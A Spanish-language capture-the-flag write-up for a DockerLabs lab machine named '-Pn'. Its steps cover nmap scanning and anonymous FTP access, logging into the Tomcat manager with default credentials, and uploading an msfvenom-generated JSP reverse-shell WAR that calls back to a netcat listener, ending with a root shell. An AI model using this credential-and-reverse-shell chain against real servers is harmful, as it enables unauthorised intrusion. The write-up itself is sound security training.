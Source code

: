 # [-Pn](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pn.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **21** y **8080**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/44f6d073-52a3-4b3c-9dee-cef94ebe4edc)

<br>

Al ver que está abierto el puerto FTP vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` <br>
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes <br> 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)<br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/530c86d6-efde-4e04-8be6-468d27df3b57)

<br>
<br>


## FTP (Puerto 21)

Una vez ya conozcamos que la versión del ftp es vulnerable al login como `anonymous`, por lo que nos logeamos como este de la siguiente forma `ftp 172.17.0.2` poniendo `anonymous` como login y contraseña, y vemos que tiene un archivo llamado `tomcat.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/24e78158-d66b-49b7-b739-85c760917b1b)
<br>

Nos lo guardamos en nuestra máquina con `get tomcat.txt` por si nos hiciera falta más adelante.

<br>

Vemos el contenido del archivo con `cat tomcat.txt`, y bueno tenemos un posible usuario llamado `tomcat`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cae42bee-ed28-4526-9959-14646212a510)

<br>
<br>


## Página Web (Puerto 8080)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:8080`. Observamos que en dicho servidor web se aloja un `Apache TomCat 9.0.88` .
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/20aee9e5-5540-40ff-9183-d5fd4f7a5523)

<br>

Si echamos un vistazo por la página vemos en el siguiente recuadro amarillo, un link para acceder al `manager webapp`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0643d2b1-75b7-4a83-a1e2-d48b012731eb)
<br>

Si pinchamos nos sale lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95018d56-5ceb-4855-8af6-6f901c543f94)

<br>

Si buscamos en páginas como [Hacktricks](https://book.hacktricks.xyz/v/es), por la credenciales por defecto de Apache Tomcat nos encontraremos con algo parecido a esto:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/730fc856-9dc1-42f6-98f4-ac529d53ef09)

<br>

Probamos las credenciales que aparecen ahí, y las que funcionan son las de `tomcat:s3cr3t`, como bien habiamos encontrado en el fichero (`tomcat.txt`) del servidor ftp, existía un usuario `tomcat`.
<br>

Ahora nos encontramos con el panel de admin de apache, que tiene esta pinta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e4b9ae3f-4d5b-47aa-9482-236d27a64b48)

<br>

Ahora lo que debemos hacer es buscar alguna manera de intentar entrar en la máquina `-Pn`, en la misma página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) donde he encontrado las credenciales por defecto más abajo nos menciona una RCE si tienes acceso al panel de Administrador que es justo lo que hemos conseguido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/47253580-fa7f-4875-94cd-110ba95b69d3)

<br>

Nos dice que tenemos que subir un archivo `.war`, para ello usaremos `msfvenom` como bien nos indica la página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) con el siguiente comando: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war` <br>
`-p` ⮞ le especificamos el payload a usar <br>
`LHOST` ⮞ nuestra dirección ip <br> 
`LPORT` ⮞ nuestro puerto por el cual nos pondremos en escucha <br>
`-f` ⮞ formato para exportar el payload <br> 
`-o` ⮞ guardar el payload en un archivo 
<br>

Observamos que se nos ha generado el archivo con el cual nos mandaremos una reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9b8d56e1-0948-48ab-aef3-634c4eb15c83)
<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.
<br>

En segundo lugar, subiremos el archivo `revshell.war` al Panel de Administrador de Tomcat en el apartado que dice `WAR file to deploy`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c3bf91d8-afb9-4d55-9a24-37c3b158f50f)
<br>

Nos dice que se ha subido correctamente, comprobamos que el archivo se encuentra en esta tabla:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/75c1bbf3-54ae-436d-b049-4090c98d4ca4)
<br>

Una vez que le hemos dado click recibiremos la revshell, por el puerto que nos habiamos puesto en escucha
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd9d2610-8a55-4aa1-bf94-4ca85f876aa6)

<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY, pero si queremos hacer alguna prueba con dicha máquina, debéis aplicar el siguiente tratamiento de la TTY:<br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

No hará falta la escalar privilegios ya que hemos accedido directamente a la máquina víctima `-Pn` como el usuario **root**:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/427ecc79-24bd-4386-bc92-afdc4f7dc51e)

 > El (;) concatena dos comandos.
